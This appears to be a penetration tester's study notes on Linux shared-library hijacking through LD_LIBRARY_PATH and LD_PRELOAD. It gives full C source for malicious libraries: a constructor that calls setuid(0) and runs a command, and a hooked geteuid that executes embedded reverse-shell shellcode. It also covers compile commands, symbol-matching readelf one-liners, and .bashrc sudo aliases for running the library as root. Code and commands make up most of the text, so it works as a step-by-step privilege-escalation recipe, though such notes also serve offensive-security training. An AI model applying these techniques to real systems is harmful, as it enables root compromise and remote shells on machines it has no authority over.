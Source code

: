 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Ansible
---
```


<span style="font-size: 35px; color:red"><b>Shared Libraries - LD_LIBRARY_PATH</b></span>
&nbsp;

Like DLLs on windows, but on linux.
This shared libs are in the following folders (ordered by importance):
- RPATH
- LD_LIBRARY_PATH
- RUNPATH
- <span style="color:red">/etc/ld.so.conf
- <span style="color:red">/lib, <span style="color:red">/lib64</span>, <span style="color:red">/usr/lib</span>, <span style="color:red">/usr/lib64</span>, <span style="color:red">/usr/local/lib</span>, <span style="color:red">/usr/local/lib64</span>, and potentially others.

&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>LD_LIBRARY_PATH</b></span>

Code to insert in .bashrc or .bash_profile to define the LD_LIBRARY_PATH

I.E. the target system is running <span style="color:red">top</span> each 3 minutes. <span style="color:red">top</span> uses shared libraries. We can trick the system into loading a fake shared library containing an exploit developed by us.

0) <span style="color:red">On most modern systems, user environment variables are not passed on when using sudo. This setting is configured in the /etc/sudoers file by using the _env_reset_ keyword as a default. Some systems are configured to allow a user's environment to be passed on to sudo. These will have _env_keep_ set instead.</span> To solve this, set an alias in .bashrc  alias sudo="sudo LD_LIBRARY_PATH=/home/offsec/ldlib" and remember to use source. Also try alias sudo = 'sudo -E' if not working.

1) Exploit to build to create shared library with payload:
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

static void runmahpayload() __attribute__((constructor));

int gpgrt_onclose;
int _gpgrt_putc_overflow; //change these lines with the ones found in point 5
int gpgrt_feof_unlocked;

void runmahpayload() {
	setuid(0);
	setgid(0);
    printf("DLL HIJACKING IN PROGRESS \n");     //actual exploit
    system("touch /tmp/haxso.txt");
}
```

2) To compile:
```shell
gcc -Wall -fPIC -c -o hax.o hax.c
gcc -shared -o libhax.so hax.o
```
This will produce <span style="color:red">libhax.so</span>

4) To check the libraries loaded by <span style="color:red">top</span>:
```shell
ldd /usr/bin/top
```
Check what libraries you see and chose one that might not prevent normal use of the application.

6) Set the environment variable and set the name of the exploit library to the one we want to hijack:
```shell
export LD_LIBRARY_PATH=/home/offsec/ldlib/
cp libhax.so libgpg-error.so.0 (in folder specified above!)
```

8) Find missing symbols (replace <span style="color:red">libgpg-error.so.0</span> with the library you are replacing):
```shell
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print "int",$8}' | sed 's/@@GPG_ERROR_1.0/;/g'
```
and copy output to the exploit shown in point 1.

10) It might be that we still miss some symbols (based on the output error from running <span style="color:red">top</spen>), you can find them like so:
```shell
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print $8}' | sed 's/@@GPG_ERROR_1.0/;/g'
```
You can wrap the symbols into a symbol map file (<span style="color:red">gpg.map</span>) like this:
```
GPG_ERROR_1.0 {
gpgrt_onclose;
_gpgrt_putc_overflow;
...
gpgrt_fflush;
gpgrt_poll;
			//remember to add white line here
};
```

And compile everything again like so:
```shell
gcc -Wall -fPIC -c -o hax.o hax.c
gcc -shared -Wl,--version-script gpg.map -o libgpg-error.so.0 hax.o
```

7) If not specifying the new Library path on the .bashrc/.bash_profile files, remember to export the library path: <span style="color:red">export LD_LIBRARY_PATH=/home/offsec/ldlib/</span> and run the command. To run it with <span style="color:red">sudo</span>, check point 0.

&nbsp;

---
&nbsp;

<span style="font-size: 25px; color:white"><b>Shared Libraries - LD_PRELOAD</b></span>

I.E Let's attack <span style="color:red">cp</span>.

1) <span style="color:red">ltrace cp</span> to see the various functions used by cp and find one that is used only once and possibly without input parameters. We'll redefine that function.
2) If the function that we found is - for instance - <span style="color:red">geteuid()</span>, the .c exploit is the following:
```c
#define _GNU_SOURCE
#include <sys/mman.h> // for mprotect
#include <stdlib.h>
#include <stdio.h>
#include <dlfcn.h>
#include <unistd.h>

char buf[] = "\x48\x31\xff\x6...  //c meterpreter revshell

uid_t geteuid(void)
{
	typeof(geteuid) *old_geteuid;
	old_geteuid = dlsym(RTLD_NEXT, "geteuid");
	if (fork() == 0)
	        {
	                intptr_t pagesize = sysconf(_SC_PAGESIZE);
	                if (mprotect((void *)(((intptr_t)buf) & ~(pagesize - 1)),
	                 pagesize, PROT_READ|PROT_EXEC)) {
	                        perror("mprotect");
	                        return -1;
	                }
	                int (*ret)() = (int(*)())buf;
	                ret();
	        }
	        else
	        {
	                printf("HACK: returning from function...\n");
	                return (*old_geteuid)();
	        }
	        printf("HACK: Returning from main...\n");
	        return -2;
}
```

3) Compile it like:
```shell
gcc -Wall -fPIC -z execstack -c -o evil_geteuid.o evileuid.c
gcc -shared -o evil_geteuid.so evil_geteuid.o -ldl
```

4) After opening a meterpreter shell, test the executable like so (before and after loading library, as shown below):
```shell
cp /etc/passwd /tmp/testpasswd
export LD_PRELOAD=/home/offsec/evil_geteuid.so
cp /etc/passwd /tmp/testpasswd
```

4) To run as root:
```shell
unset LD_PRELOAD
```
Also add to .bashrc:
```shell
alias sudo="sudo LD_PRELOAD=/home/offsec/evil_geteuid.so"
```
and run the command with sudo.
